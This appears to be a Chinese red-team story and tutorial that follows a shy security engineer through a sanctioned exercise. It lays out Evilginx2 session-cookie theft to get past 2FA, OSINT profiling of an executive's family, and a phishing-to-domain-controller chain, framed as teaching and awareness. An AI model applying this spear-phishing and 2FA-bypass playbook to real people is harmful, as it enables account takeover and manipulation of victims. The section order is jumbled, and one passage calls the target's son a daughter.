   - Evilginx2绕过2FA
   - OSINT情报收集

5. 护网实战（10分钟）
   - XX集团护网故事
   - 关键攻击路径

6. 给大家的建议（5分钟）
   - 怎么识别鱼叉钓鱼
   - 怎么保护自己

【PPT准备】
- 老周帮小陈做的PPT
- 小陈写了详细的演讲稿
- 在家里对着镜子练了20遍
- 还录了视频，自己回看改进
```

**分享当天：**
```
📅 分享当天：

【13:50】小陈到会议室
- 100多个座位，已经坐了70多人
- 还有5分钟开始
- 小陈手心都是汗
- 心跳加速

【13:55】老周上台
- "今天我们请到了小陈，给大家讲社工钓鱼。"
- "小陈是我们公司的社工钓鱼专家，刚在XX集团护网中立了大功。"
- "大家欢迎！"

【13:56】小陈上台
- 走到台前，看着下面100多人
- 心跳到嗓子眼
- 手有点抖
- 深呼吸3次
- 开始讲：

"大...大家好...我是小陈..."
"今天...今天我给大家讲...讲一下社工钓鱼..."

【14:00】慢慢进入状态
- 讲到自己"第一次失败0%中招"时
- 大家笑了
- 小陈也跟着笑了
- 紧张感减轻了不少

【14:10】讲技术部分
- 这是小陈的强项
- 越讲越顺
- 还现场演示了Evilginx2
- 大家听得入迷

【14:30】讲护网故事
- 讲怎么钓王主任
- 讲怎么钓CEO
- 讲到关键处，大家屏住呼吸
- 讲到成功处，大家鼓掌

【14:55】总结
- 给大家5条建议
- 鞠躬致谢
- 掌声雷动

【15:00】结束
- 老周上台：
  "小陈讲得太好了！
  从'被逼做钓鱼'到'钓鱼之王'，
  这是真正的成长。"
- 同事们纷纷鼓掌
- 几个同事过来加小陈微信
- 还有女同事（产品部的）过来说：
  "小陈，你讲得真好，我以前都不知道社工这么厉害。"
```

**小陈那天晚上的日记：**
```
📝 2024年11月XX日

今天，我做了人生中第一次百人分享。

说实话，上台前我紧张得要死。
但是讲起来之后，就好多了。
尤其是大家笑的时候，鼓掌的时候，
我突然觉得：
原来，站在台上也没那么可怕。

以前我逃避所有的"展示自己"的机会。
开会不发言，培训让别人讲，年终汇报让别人代...
我以为自己永远做不到。

但今天我做到了。
100多人，60分钟，我讲下来了。
而且，反响还不错。

我想明白了：
不是"会说话才能上台"，
而是"上台了，才会慢慢会说话"。
自信是练出来的，不是天生的。

今天，我又突破了自己一次。

也许，下一次，我可以主动申请分享。
也许，下一次，我可以更从容一些。

内向不是缺陷。
内向的人，也可以站在台上。
只是，我们需要更多准备，更多练习。
但只要做到了，我们就一样棒。
```

### 8.3 和女同事的对话

分享会后的那个周五，公司团建。

小陈破天荒地参加了（以前他都不去）。

在团建的聚餐上，那个产品部的女同事（小陈之前偷偷觉得"人挺好"的那个）主动过来和小陈聊天。

**对话（脱敏）：**
```
💬 小陈和女同事（小林）的对话：

【小林】
"小陈，你今天的分享真不错。
我以前完全不知道社工钓鱼这么厉害。
你讲的那个'大学家长会'的故事，太绝了。"

【小陈】（有点紧张，但比以前好多了）
"谢...谢谢。
其实我上台前紧张死了。
我...我不太会讲话。"

【小林】
"看不出来啊，你讲得很流畅。
而且你讲技术的时候，特别有激情。
能看出来你真的很喜欢这一块。"

【小陈】
"嗯...社工钓鱼确实挺有意思的。
它不光是技术，还有心理学。
我...我最近在研究一本新书..."

【小林】
"哇，你还在研究？你是那种一直在学习的人吧。
我特别佩服你们搞技术的，能这么专注。"

【小陈】（脸有点红）
"也...也没什么...
就是...找到了自己喜欢做的事。"

【小林】
"对了，我有个朋友在XX公司做安全，
他们最近想做钓鱼演练，想找人咨询。
你方便聊聊吗？"

【小陈】
"可...可以啊。"

【小林】
"那我让他加你微信。"
"对了，加个微信吧，以后好联系。"

【小陈】（内心：!!!）
"好...好的。"
```

**小陈那天晚上的日记：**
```
📝 2024年11月XX日 周五

今天团建，我参加了。
而且，我和小林说话了。
还是她主动过来找我聊的。
我们还加了微信。

这事放在半年前，我连想都不敢想。
半年前的我，看到女生就脸红，根本说不出话。
今天，虽然还是有点紧张，
但至少能正常聊天了。

我想，改变的不只是我的技术，
还有我的心态。

以前我觉得自己是个失败者，没人会喜欢我。
现在我知道，我有自己擅长的事，
我也有自己的价值。
这种自信，让我面对别人的时候，
不再那么卑微，那么紧张。

我不是变成外向了，我还是内向。
但我学会了：
内向也可以社交，只是方式不一样。
我不需要变成另一个人，
我只需要做自己，并且相信自己。

今天，是个好日子。
```

> 💡 **关于小陈和小林：**
> 后来的故事...他们没有立刻在一起（这不是爽文）。
> 但他们成了朋友，偶尔聊聊天。
> 小陈慢慢学会了和女生正常交流。
> 一年多后，他们开始交往了。
>
> 这个故事告诉我们：
> 自信的人，才有吸引力。
> 而自信，来自于"做到"。
> 找到自己擅长的事，做到极致，自信就来了。

---

## 📚 案例讲解

### 案例1：鱼叉钓鱼 vs 群发钓鱼——ROI对比

**背景**：小陈在XX集团护网中，先群发钓鱼0%中招，后用鱼叉钓鱼50%中招（且是关键人物）。

**对比分析：**
```
📊 鱼叉钓鱼 vs 群发钓鱼的ROI对比：

【群发钓鱼】
- 发送：30封
- 准备时间：1天
- 中招：0人
- 中招率：0%
- 价值：0（被培训过的员工免疫）
- ROI：0

【鱼叉钓鱼】
- 发送：2封（王主任 + CEO）
- 准备时间：5天（情报收集 + 话术设计）
- 中招：2人
- 中招率：100%
- 价值：极高（OA管理员 + CEO）
- ROI：极高

【为什么差距这么大】
1. 群发用通用话术，鱼叉用个性化话术
2. 群发不针对个人，鱼叉精准命中"软肋"
3. 群发容易被培训防住，鱼叉超出培训范围
4. 群发打普通员工，鱼叉打关键人物
5. 群发是"广撒网"，鱼叉是"狙击"

【结论】
对于"经过培训"的目标，群发钓鱼基本失效。
必须用鱼叉钓鱼，针对关键人物，定制化攻击。
鱼叉钓鱼的ROI，远高于群发钓鱼。
```

---

### 案例2：Evilginx2绕过2FA的完整过程

**背景**：王主任的邮箱开了2FA，小陈用Evilginx2成功绕过。

**完整攻击链：**
```
📊 Evilginx2绕过2FA的完整攻击链：

【准备阶段】
1. 注册钓鱼域名：mail.xxgroup-update.com
2. 配置DNS解析到Evilginx2服务器
3. 加载OWA Phishlet
4. 创建lure，配置跳转
5. 获取钓鱼链接：https://mail.xxgroup-update.com/

【邮件钓鱼阶段】
1. 设计"邮箱异常登录告警"邮件
2. 发送给王主任
3. 王主任打开邮件，看到"异地登录"告警
4. 王主任点击"立即登录确认"链接

【Evilginx2代理阶段】
1. 王主任访问 https://mail.xxgroup-update.com/
2. Evilginx2代理请求真实的 mail.xxgroup.com
3. 真实服务器返回OWA登录页
4. Evilginx2把登录页返回给王主任
5. 王主任看到"正常的"登录页（URL不同，但他没注意）

【凭证收集阶段】
1. 王主任输入账号密码
2. Evilginx2记录账号密码
3. Evilginx2把账号密码转发给真实服务器
4. 真实服务器验证通过，要求2FA

【2FA绕过阶段】
1. 真实服务器返回2FA输入页面
2. Evilginx2转发给王主任
3. 王主任手机收到短信验证码
4. 王主任输入验证码
5. Evilginx2把验证码转发给真实服务器

【Cookie截获阶段】
1. 真实服务器验证2FA通过
2. 真实服务器返回Session Cookie
3. Evilginx2拦截Session Cookie
4. Evilginx2把Cookie返回给王主任（让王主任也能登录）

【会话劫持阶段】
1. 攻击者从Evilginx2导出Cookie
2. 攻击者用浏览器导入Cookie
3. 攻击者访问 mail.xxgroup.com
4. 服务器看到Cookie，以为是王主任
5. 攻击者直接进入王主任的邮箱，无需2FA

【关键点】
整个过程中，王主任的2FA完全正常工作。
验证码是真实的，验证是成功的。
但攻击者拿到的是"会话"（Cookie），不是"凭证"。
2FA只验证"登录"，不验证"已登录的会话"。
所以2FA被绕过了。
```

---

### 案例3：OSINT情报收集的"恐怖"威力

**背景**：小陈通过OSINT，把王主任研究得"比他老婆还了解"。

**OSINT收集到的信息清单：**
```
📊 通过OSINT收集到的王主任信息：

【基本信息】
- 姓名、年龄、职位
- 家庭住址（小区名）
- 家庭成员（老婆、儿子）
- 手机号（从泄露库）

【工作信息】
- 直接汇报对象（CEO）
- 下属团队
- 权限范围
- 邮箱、工号

【儿子信息】
- 年龄、年级
- 高考成绩（632分，王主任微博发过）
- 录取学校（XX大学，王主任朋友圈发过）
- 专业（计算机科学，王主任脉脉提过）

【行为习惯】
- 上下班时间
- 邮件查看习惯
- 用的设备和软件

【心理特征】
- 最在意什么（儿子的前途）
- 最害怕什么（儿子考不上好大学）
- 最渴望什么（儿子上985/211）

【这些信息从哪来】
- 微博：30%
- 朋友圈：20%
- 脉脉：15%
- LinkedIn：10%
- 招聘网站：10%
- 公司官网：5%
- 泄露数据库：5%
- 其他公开信息：5%
```

**OSINT的"恐怖"之处：**
```
😱 OSINT的"恐怖"之处：

1. 全部是"公开"信息
   - 不需要黑客技术
   - 不需要入侵任何系统
   - 全部从公开渠道收集
   - 但是...加起来比"隐私"还隐私

2. 一个人在网上的"画像"
   - 你以为你只发了"无关紧要"的内容
   - 但这些内容加起来，就是完整的你
   - 你的家庭、工作、爱好、行程、人际关系...
   - 几乎全部能拼出来

3. 防御OSINT的方法
   - 减少"自我暴露"：少在社交媒体发个人信息
   - 定期清理：删除旧的、敏感的动态
   - 隐私设置：把社交媒体设为"仅好友可见"
   - 用假信息：在某些场景下，使用化名
   - OSINT审计：定期搜自己，看看公开了什么
```

> 💡 **小陈的建议：**
> "每个人都应该做一次'OSINT自检'。
> 用Google搜一下自己的名字、手机号、邮箱。
> 看看公开了什么信息。
> 你会惊讶地发现，你在网上是'透明'的。"

---

### 案例4：从钓鱼到域控——完整攻击链复盘

**背景**：小陈的钓鱼，是怎么一步步演变成"拿下域控"的？

**完整攻击链：**
```
📊 从钓鱼到域控的完整攻击链：

【第一层：钓鱼突破】
1. OSINT收集王主任信息
2. 设计"大学家长会"鱼叉邮件
3. 王主任中招，拿到手机号+密码
4. 撞库失败（公司密码不一样）

【第二层：Evilginx2绕2FA】
5. 设计"邮箱异常登录"邮件
6. 用Evilginx2代理Exchange邮箱
7. 王主任中招，输入账号密码+2FA
8. 拿到Session Cookie，绕过2FA
9. 进入王主任邮箱

【第三层：邮箱挖宝】
10. 从邮箱发现OA管理后台地址
11. 从邮箱发现文档系统临时密码
12. 从邮箱发现CEO邮箱和Project XX信息

【第四层：针对CEO】
13. 设计"Project XX财务模型"邮件
14. 附件是带宏Excel
15. CEO打开Excel，启用宏
16. Payload执行，C2回连
17. 拿到CEO电脑控制权

【第五层：横向移动】
18. 从CEO电脑导出浏览器密码
19. 拿到3个管理后台密码
20. 登录战略决策系统、董事会文件库、高管报表
21. 从CEO邮箱找到运维主管的紧急联系文档
22. 文档里有堡垒机的"应急登录"方式

【第六层：域控】
23. 通过堡垒机登录运维主管的会话
24. 用运维主管权限执行BloodHound分析
25. 发现一条从运维主管到域管的Kerberoasting路径
26. 导出TGS票据，离线破解拿到域管密码
27. 域管登录域控，拿到整个域

【最终战果】
- 拿下XX集团域控（krbtgt哈希）
- 拿下战略决策系统、财务系统、HR系统
- 拿下CEO、CFO、CTO、CIO四位高管邮箱
- 拿下3个核心数据库的sa权限
- 控制范围：整个集团IT基础设施
```

**攻击链复盘图：**

```mermaid
flowchart LR
    A[OSINT收集<br/>王主任信息] --> B[鱼叉钓鱼1<br/>家长会邮件]
    B --> C[拿到手机号+密码<br/>撞库失败]
    C --> D[Evilginx2鱼叉钓鱼2<br/>邮箱异常登录]
    D --> E[绕过2FA<br/>拿到Session Cookie]
    E --> F[进入王主任邮箱]
    F --> G[邮箱挖宝<br/>发现CEO+Project XX]
    G --> H[针对CEO鱼叉<br/>带宏Excel]
    H --> I[CEO中招<br/>C2回连]
    I --> J[导出浏览器密码<br/>拿到管理后台]
    J --> K[找到堡垒机应急方式]
    K --> L[运维主管会话]
    L --> M[BloodHound分析]
    M --> N[Kerberoasting<br/>破解域管密码]
    N --> O[拿下域控<br/>拿到krbtgt]
    O --> P[🎯 整个集团IT基础设施]
```


### 5.4 关键节点复盘：每一步都踩在"人"上

复盘的时候，飞哥说了一句话：

> "你们注意看这条攻击链，从头到尾，每一个关键突破，都是靠'人'打开的。"

**逐节点分析：**
```
🔍 攻击链的"人"节点分析：

节点1：OSINT收集 → 靠的是公开信息（人的暴露）
节点2：家长会钓鱼 → 靠的是王主任"关心女儿"的心理
节点3：邮箱异常钓鱼 → 靠的是王主任"怕出事"的恐惧
节点4：CEO Project XX钓鱼 → 靠的是CEO"关心核心项目"的紧迫
节点5：浏览器密码 → 靠的是CEO"密码复用"的坏习惯
节点6：应急文档 → 靠的是运维"为了方便"的妥协
节点7：Kerberoasting → 靠的是域管"弱服务账号密码"
```

> 💡 **小陈的总结：**
> "你看，技术漏洞只占了两三个节点，剩下五个全是'人'的弱点。
> 这就是为什么社工钓鱼这么重要。
> 不是技术不重要，是'人'才是最薄弱的环节。"

### 5.5 攻击链的"三个第一"

这次攻击链，让小陈拿到了三个"第一"：

```
🏆 小陈的"三个第一"：

1. 第一次完整跑通"钓鱼→域控"全链路
   - 之前的演练都是单点突破
   - 这次是真正从外网打到域控
   - 全程靠社工钓鱼撕开防线

2. 第一次绕过2FA拿到高管权限
   - Evilginx2实战首秀成功
   - 证明"2FA不是万能的"
   - 给防守方敲了警钟

3. 第一次在护网中起到"决定性"作用
   - 之前的钓鱼只是"开胃菜"
   - 这次钓鱼直接决定了胜负
   - 没有钓鱼，根本没有后面的事
```

---

## 🏆 "钓鱼之王"的诞生与认可

### 6.1 护网结束当天的复盘会

护网行动结束当天，XX集团组织了三方复盘会。

红队、蓝队、裁判组，坐在一起，逐项复盘。

**汇报顺序：**
```
📋 复盘会汇报顺序：

1. 裁判组宣布战绩
2. 红队汇报攻击路径
3. 蓝队汇报防守情况
4. 双方互相提问
5. 经验教训总结
```

### 6.2 裁判组的宣布

裁判组组长站起来，开始宣布战绩：

> "各位，本次护网行动结束。
> 我宣布最终战绩：
>
> **红队战果：**
> - 拿下域控：✅（行动第5天）
> - 拿下核心系统：✅（战略决策、财务、HR）
> - 拿下高管邮箱：✅（CEO、CFO、CTO、CIO）
> - 控制员工终端：✅（1200+台）
> - 拿到域账号：✅（3000+）
>
> **蓝队战果：**
> - 阻断Web攻击：287次
> - 阻断钓鱼邮件：3次（第一波）
> - 发现并处置红队IP：15个
> - 溯源红队基础设施：2个
>
> **最终判定：**
> 红队胜利。
> 核心突破点：**社工钓鱼**。"

会议室里一片安静。

裁判组组长继续说：

> "本次护网，红队最大的亮点是社工钓鱼。
> 蓝队做了全员安全意识培训，普通钓鱼全部失效。
> 但红队通过OSINT情报收集+定制化鱼叉钓鱼+Evilginx2绕过2FA，
> 成功撕开防线，最终拿下域控。
>
> 这条攻击链，堪称教科书级别。
> 负责这块的，是哪位？"

飞哥指了指小陈：

> "是我们队的小陈，专门负责社工钓鱼。"

所有人的目光，都看向角落里的小陈。

小陈瞬间脸红了，低着头，不知道该怎么办。

### 6.3 被称为"钓鱼之王"

裁判组组长看着小陈，笑着说：

> "小伙子，可以啊。
> 我们看了你的攻击链，从OSINT到鱼叉到Evilginx2，环环相扣。
> 尤其是那个'家长会'鱼叉，把王主任的心理摸得太透了。
>
> 还有那个Evilginx2绕2FA，我们蓝队都没反应过来。
> 等发现Session Cookie被偷的时候，邮箱已经被翻了3个小时了。
>
> 你这钓鱼水平，可以叫'钓鱼之王'了。"

"钓鱼之王"这个称号，就这么叫开了。

**会后，几个红队同行过来交流：**
```
🤝 会后交流：

某红队老大：
"兄弟，你那个Evilginx2用得可以啊。
我们队也有人研究，但没你用得这么溜。
Phishlet是自己写的还是改的？"

小陈（紧张地）：
"改的...官...官方的o365 phishlet，
我...我改了一些subfilters和auth_tokens，
让它...让它能拿到完整的Session Cookie。"

某红队老大：
"哟，还改了subfilters？牛逼。
回头能交流一下吗？
我们最近也在研究这个。"

小陈：
"可...可以。"

——

某蓝队队长：
"兄弟，我得向你请教一下。
我们做了那么多培训，为什么还是被你钓了？"

小陈（鼓起勇气）：
"因...因为培训是'通用'的，钓鱼是'定制'的。
培训告诉员工'小心钓鱼邮件'，
但我的邮件是专门针对某个人设计的，
每...每一封都不一样。
通用的培训，防不住定制的攻击。"

某蓝队队长（愣了一下）：
"有道理... 这个观点我得回去消化一下。"
```

### 6.4 老板的表扬

复盘会后，XX集团的CIO专门过来找飞哥：

> "你们队那个负责钓鱼的小伙子，叫小陈是吧？
> 我看了他的攻击链，太厉害了。
>
> 我们花了大价钱做安全培训，结果被他一封鱼叉邮件就破了。
> 这说明什么？说明我们的安全意识培训方向有问题。
>
> 我要请你们团队，给我们做一次'定制化钓鱼演练'。
> 就用小陈的方法，看看我们高管到底有多脆弱。
>
> 报酬好说，市场价。"

飞哥看了眼小陈：

> "没问题，CIO。我们回头详谈。"

回去的路上，飞哥拍了拍小陈的肩膀：

> "小陈，干得漂亮。
> 这次护网，你立了头功。
> 回去给你涨工资。"

小陈红着脸，小声说：

> "谢...谢谢飞哥。"

**那天晚上，小陈在日记里写：**
```
📝 2024年X月X日

今天，被称为"钓鱼之王"。

从一个连话都说不利索的社恐，到"钓鱼之王"。
这条路，我走了X个月。

回想第一次钓鱼，0%中招率，被嘲笑是"喂鱼大师"。
现在，绕过2FA，拿下域控，被叫"钓鱼之王"。

中间经历了什么？
- 疯狂读书：《欺骗的艺术》《影响力》《心理操纵术》...
- 疯狂实践：群发钓鱼、鱼叉钓鱼、Evilginx2、OSINT...
- 疯狂复盘：每次失败都要找出原因，每次成功都要总结规律
- 疯狂打磨：一封邮件改50遍，一个页面调100遍

我最大的感悟是：
社工钓鱼，不是"骗术"，是"理解"。
理解人性，理解弱点，理解行为。

我不会说话，但我能"看懂"人。
这，就够了。
```

---

## 🌱 蜕变深化：从自信到传承

### 7.1 蜕变的起点

护网结束后，小陈回到了公司。

他坐在工位上，看着熟悉的屏幕，突然有一种奇怪的感觉——

**他不再害怕了。**

不是不害怕社交，而是不再害怕"自己"。

**小陈的内心独白：**
```
🧠 小陈的内心独白：

以前，我觉得自己是个"废物"。
不会说话、不会社交、不会来事儿。
在公司里是个透明人。
年终汇报都说不清楚。

但是护网这件事，让我明白了一件事：
我的"缺点"，在另一个领域，是"优点"。

我不会说话？没关系，钓鱼靠的是文字。
我不会社交？没关系，钓鱼不需要面对面。
我不爱表达？没关系，我能观察、能分析、能思考。
我敏感细腻？这正是社工最需要的能力。

原来，我不是"没用"。
我只是没找到"对的地方"。
```

> 💡 **小陈的顿悟：**
> 性格没有好坏，只有"放没放对地方"。
> 内向不是缺陷，是一种不同的能力。
> 把内向用在销售上，是灾难。
> 把内向用在社工钓鱼上，是天赋。

### 7.2 第一次主动发言

护网结束后的第一次部门会议，老周让每个人汇报近期工作。

按惯例，小陈会低着头，小声说几句"和上周差不多"就完了。

但这次，他做了一个连自己都没想到的事——

**他主动举手了。**

```
🗣️ 那次会议的情景：

老周：还有谁要汇报？

小陈（举手，手在抖）：
"我...我想说一下这次护网的钓鱼总结。"

老周（愣了一下）：
"哦？小陈你说。"

小陈（声音有点抖，但很清晰）：
"这次护网，我负责社工钓鱼。
 一共发了3波钓鱼邮件，
 第一波群发，全部被拦；
 第二波鱼叉，钓到王主任；
 第三波Evilginx2，绕过2FA，拿到邮箱。
 最后通过横向移动，拿下域控。
 
 我的体会是：
 1. 普通钓鱼已经被防住了，全员培训有用
 2. 但定制化鱼叉钓鱼，培训防不住
 3. 2FA也不是万能的，Evilginx2能绕
 4. 我们公司的钓鱼演练，应该升级到鱼叉级别
    不然就是'自欺欺人'。"

会议室里安静了几秒。

老周：
"说得好。小陈这个建议，我支持。
 我们今年的钓鱼演练，就按鱼叉级别来。
 小陈，你来牵头。"

小陈（脸红）：
"好...好的。"
```

**那天晚上，小陈在日记里写：**
```
📝 2024年X月X日

今天，我在会上主动发言了。

虽然手在抖，虽然声音在颤，
但我说完了，说清楚了，说出了自己的观点。

这是28年来，第一次。

以前开会，我都是坐在角落，一言不发。
不是没想法，是不敢说。
怕说错，怕被笑，怕被人看。

但是护网让我明白了一件事：
我有能力，我有观点，我有价值。
我不需要因为"不会说话"就否定自己。

我会说话的，只是说得慢一点。
那就慢一点说，没关系。
重要的是"说"，不是"快"。
```

### 7.3 被邀请做分享

护网后不久，小陈收到了一个意想不到的邀请。

**某安全社区的邀请函：**
```
📧 邀请函：

小陈您好：

我们是XXX安全社区。
听说您在最近的护网行动中，用社工钓鱼拿下了域控，
被称为"钓鱼之王"。

我们社区每月有一次技术分享会，
想邀请您做一次分享，主题是：
"从鱼叉钓鱼到域控：一次完整的社工攻击链"

时间：30分钟
形式：线上分享
报酬：XXXX元

不知道您是否有兴趣？

——XXX安全社区
```

小陈看到这封邮件，第一反应是——

**"我不行。"**

他本能地想拒绝。

但这次，他停了一下，问自己：

> "我真的不行吗？
> 还是只是'不敢'？
> 
> 我能拿下域控，却不敢做一次30分钟的分享？
> 这合理吗？"

他犹豫了三天，最后回了一封邮件：

```
📧 小陈的回复：

您好：

感谢邀请。
我愿意尝试。

不过我有几个要求：
1. 我会紧张，可能会卡顿，请多包涵
2. 我会提前写好稿子，照着念
3. 问答环节，可能会回答得慢一点

如果这些可以接受，我就来。

——小陈
```

对方很快就回了：

> "完全没问题！我们更喜欢'真实'的分享，而不是'流畅'的宣讲。
> 期待您的分享。"

### 7.4 那场分享会

分享会那天，小陈紧张得要命。

他提前写了详细的逐字稿，演练了20多遍。

**分享会现场：**
```
🎤 分享会现场（线上，200+人）：

主持人：
"今天我们请到了'钓鱼之王'小陈，
 来分享他最近一次护网的社工攻击链。
 小陈，请开始。"

小陈（声音有点抖）：
"大...大家好，我是小陈。
 今天分享的主题是：
 '从鱼叉钓鱼到域控——一次完整的社工攻击链'。

 先说一下背景..."
```

小陈照着稿子念，一开始很紧张，声音都在抖。

但讲到技术细节的时候，他慢慢进入了状态。

```
🎤 分享会中段：

小陈（越讲越顺）：
"然后我用了Evilginx2，
 配置了一个o365的phishlet，
 通过反向代理，把用户的2FA也绕过了。
 
 这里的关键点是，
 Evilginx2不是'破解'2FA，
 而是'透传'2FA。
 用户输的2FA码，被代理转发给了真实服务器，
 服务器验证通过，下发Session Cookie，
 这个Cookie被我们截获了。
 
 有了Cookie，就相当于有了'已经登录'的状态，
 不需要再输2FA了。"

——

观众提问：
"小陈老师，请问Evilginx2的phishlet怎么写？"

小陈（已经不紧张了）：
"phishlet是YAML格式的，
 主要包括几个部分：
 - proxy_hosts：代理的域名
 - phish_sub：钓鱼子域名
 - auth_tokens：要偷的Cookie
 - creds：要偷的账号密码
 - landing_path：登录后的跳转
 
 我给大家看一下o365的phishlet示例..."
```

讲了40分钟（超时了10分钟），小陈讲完了。

**分享后的反馈：**
```
📊 分享会反馈：

- 参与人数：287人
- 平均评分：4.8/5
- 评论：
  * "干货满满，技术细节到位"
  * "小陈老师虽然有点紧张，但内容太硬了"
  * "Evilginx2那段讲得最清楚，终于理解了"
  * "鱼叉钓鱼的心理学分析，很有启发"
  * "期待下次分享！"
```

**那天晚上，小陈在日记里写：**
```
📝 2024年X月X日

今天，我做了一场200多人的分享。

从"不敢和女同事说话"到"给200人做分享"。
这一步，我走了X个月。

分享的时候，前5分钟很紧张，声音都在抖。
但讲到技术，我就忘了紧张。
因为技术是我熟悉的，是我有把握的。

我发现一个道理：
自信，不是"什么都能说"，
而是"在自己擅长的领域，能说清楚"。

我不擅长闲聊，但我擅长讲技术。
那就讲技术。
在擅长的领域建立自信，
然后把这份自信，慢慢带到其他领域。

这就是我的"蜕变之路"。
```

### 7.5 给新同事培训

护网后，公司新来了几个安全部的同事。

老周让小陈给他们做一次"社工钓鱼入门"培训。

**小陈的培训大纲：**
```
📋 小陈的培训大纲：

【第一部分：社工钓鱼是什么】
1. 社工钓鱼的定义
2. 群发钓鱼 vs 鱼叉钓鱼
3. 社工钓鱼在红队中的作用

【第二部分：心理学基础】
1. 影响力六大原则
2. 三大弱点：恐惧/贪婪/好奇
3. 系统1 vs 系统2
4. 承诺与一致性陷阱

【第三部分：OSINT情报收集】
1. 搜索引擎OSINT
2. 社交媒体OSINT
3. 工具：theHarvester、Sublist3r、Maltego
4. 信息整理与画像

【第四部分：钓鱼邮件制作】
1. 群发钓鱼邮件模板
2. 鱼叉钓鱼邮件设计
3. 邮件伪造：SPF/DKIM/DMARC绕过
4. Gophish平台使用

【第五部分：钓鱼页面制作】
1. 页面克隆技巧
2. 绕过浏览器安全提示
3. 移动端适配

【第六部分：Evilginx2进阶】
1. Evilginx2工作原理
2. Phishlet配置
3. 绕过2FA的原理
4. 实战注意事项

【第七部分：实战案例】
1. 护网案例复盘（脱敏）
2. 攻击链分析
3. 经验教训
```

**培训现场：**
```
👨‍🏫 培训现场：

小陈（站在投影前，手有点抖，但很认真）：
"大家好，我是小陈。
 今天给大家讲社工钓鱼。

 先说一下我的背景。
 我不是科班出身，本来是做安全运维的。
 因为一次护网，被临时拉去做钓鱼。
 第一次做，0%中招率，被同事嘲笑是'喂鱼大师'。
 
 但是后来我研究了几个月，
 从群发钓鱼做到鱼叉钓鱼，
 从鱼叉钓鱼做到Evilginx2绕2FA，
 最后在护网里拿下了域控。
 
 所以，我想用我的经历告诉大家：
 社工钓鱼不难，但需要'用心'。
 不是会用工具就行，要'懂人'。"

——

新同事小张：
"陈哥，我内向，不会说话，能做社工吗？"

小陈（笑了）：
"我就是个社恐。
 社工钓鱼不需要外向，反而需要细腻。
 内向的人，观察力强、逻辑强、能坐得住。
 这些都是社工的优势。
 
 你看《欺骗的艺术》的作者米特尼克，
 他也不是靠'嘴'，是靠'脑'。
 所以，内向不是问题，不用心才是问题。"
```

### 7.6 一年后的变化

一年后，小陈变了。

**一年后的小陈：**
```
👤 一年后的小陈：

【工作】
- 升职：安全运维 → 社工钓鱼专家
- 涨薪：12000 → 25000
- 职责：负责公司所有红队社工任务
- 业绩：护网功臣、对外服务专家

【能力】
- 技术：OSINT、鱼叉钓鱼、Evilginx2、横向移动
- 心理：影响力六大原则、行为分析、画像建模
- 表达：能写邮件、能做培训、能做分享
- 领导：带3个新人的"师傅"

【性格】
- 还是内向，但不再自卑
- 还是话少，但该说的时候能说
- 还是社恐，但能管理自己的恐惧
- 还是敏感，但把敏感变成了"洞察力"

【生活】
- 开始健身（跑步，一个人那种）
- 朋友圈偶尔发了（技术内容）
- 相亲还在继续，但心态变了
- 有了几个安全圈的朋友（线上交流为主）
```

**小陈对自己变化的分析：**
```
🧠 小陈的自我分析：

我没有变成"外向"。
我只是学会了"和内向共处"。

1. 接受自己
   - 我就是内向，这没什么不好
   - 内向有内向的优势
   - 不需要为了"合群"假装外向

2. 找到舞台
   - 内向不是问题，问题是没找到对的地方
   - 社工钓鱼，就是我的舞台
   - 在这个舞台上，内向是优势

3. 建立自信
   - 自信来自能力，不是性格
   - 我在社工领域有能力，所以我有自信
   - 这份自信，能带到生活的其他方面

4. 管理恐惧
   - 社恐还在，但我学会了"带着恐惧行动"
   - 紧张没关系，紧张也可以做分享
   - 害怕没关系，害怕也可以开口说话
   - 不是"不害怕"，而是"害怕了也做"
```

> 💡 **小陈的蜕变总结：**
> 我没有变成另一个人。
> 我只是找到了"自己"。
> 
> 以前，我以为内向是病，要治。
> 现在，我知道内向是特点，要用。
> 
> 以前，我以为社工需要外向。
> 现在，我知道社工需要"懂人"，内向的人反而更懂。
> 
> 这就是我的蜕变——
> **不是变成别人，是成为自己。**

---

## 💡 给后来者的建议：社工的核心不是技术，是理解人性

### 8.1 小陈写给新人的信

护网后，小陈在公司内部论坛发了一篇长文，标题是：

**《一个社恐的社工钓鱼之路：写给所有觉得自己"不行"的人》**

```
💌 致所有觉得自己"不行"的人：

你好，我是小陈。

如果你是一个内向的人，
如果你觉得自己"不会说话"，
如果你觉得自己"不适合做社工"，
如果你觉得自己是个"透明人"，
那么，这篇文章是写给你的。

我想用我的经历告诉你：
**社工钓鱼，不是外向者的专利。**
**内向的人，反而有独特的优势。**

我先讲讲我的故事。
```

### 8.2 五条核心建议

小陈在文章里，给新人总结了五条核心建议：

**建议一：接受自己的性格**
```
💡 建议一：接受自己的性格

很多人觉得，做社工一定要外向、会说话、能忽悠。
这是误区。

社工钓鱼的本质，是"理解人"，不是"忽悠人"。
理解人，靠的是观察、分析、同理心——
这些恰恰是内向者的强项。

所以，第一步：接受自己。
- 内向？没关系，内向的人观察力强。
- 话少？没关系，钓鱼靠的是文字。
- 社恐？没关系，社工不需要面对面。
- 敏感？这正是社工最需要的能力。

不要为了"合群"假装外向。
你的内向，是财富，不是负担。
```

**建议二：从工具到心理学**
```
💡 建议二：从工具到心理学

很多人学社工钓鱼，一上来就学工具：
Gophish、SET、Evilginx2...

工具当然要学，但工具只是"手段"。
社工钓鱼真正的"核心"，是心理学。

我的建议：
1. 先读书
   - 《影响力》（西奥迪尼）——必读
   - 《欺骗的艺术》（米特尼克）——必读
   - 《思考，快与慢》（卡尼曼）——推荐
   - 《心理操纵术》（李柏曼）——推荐

2. 再学工具
   - Gophish：群发钓鱼平台
   - SET：社工工具包
   - Evilginx2：中间人钓鱼（进阶）

3. 最后实践
   - 在授权环境下实践
   - 每次实践都要复盘
   - 总结成功/失败的原因

工具会过时，心理学不会。
把心理学学透，什么工具都能玩转。
```

**建议三：OSINT是基本功**
```
💡 建议三：OSINT是基本功

鱼叉钓鱼的前提，是"了解目标"。
怎么了解？靠OSINT。

OSINT工具推荐：
1. theHarvester —— 邮箱、子域名收集
2. Sublist3r —— 子域名枚举
3. Maltego —— 关系图谱分析
4. Holehe —— 通过邮箱反查社交账号
5. Hunter.io —— 企业邮箱挖掘
6. Google Dorking —— 搜索引擎高级语法

OSINT的核心思维：
- 一个人在网上的"公开信息"，比你想象的要多
- 姓名、邮箱、手机、家庭、行程、爱好...几乎都能查到
- 把这些信息拼起来，就是一份"人物画像"
- 画像越详细，钓鱼越精准

记住：
**鱼叉钓鱼，80%的精力在情报收集，20%在执行。**
```

**建议四：Evilginx2是必修课**
```
💡 建议四：Evilginx2是必修课

